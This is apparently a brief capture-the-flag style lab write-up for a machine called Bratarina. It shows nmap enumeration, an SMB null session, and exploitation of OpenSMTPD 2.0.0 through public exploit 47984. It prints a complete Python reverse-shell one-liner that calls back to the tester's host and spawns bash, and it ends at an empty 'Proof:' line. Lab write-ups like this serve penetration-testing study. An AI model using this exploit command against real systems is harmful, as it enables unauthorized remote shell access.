

# Bratarina

## Service Enumeration

`nmapAutomator.sh -H 192.168.163.71 -t full`

`nmapAutomator.sh -H 192.168.163.71 -t vulns`

### Samba

Null SMB sessions are allowed.

There is a `backups` share.

### SMTP

OpenSMTP 2.0.0 is used.

## Exploitation

This is vulnerable to an RCE vulnerability: [https://www.exploit-db.com/exploits/47984](https://www.exploit-db.com/exploits/47984)

`python3 47984.py 192.168.163.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.163\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'`

We receive a reverse shell:

Proof:

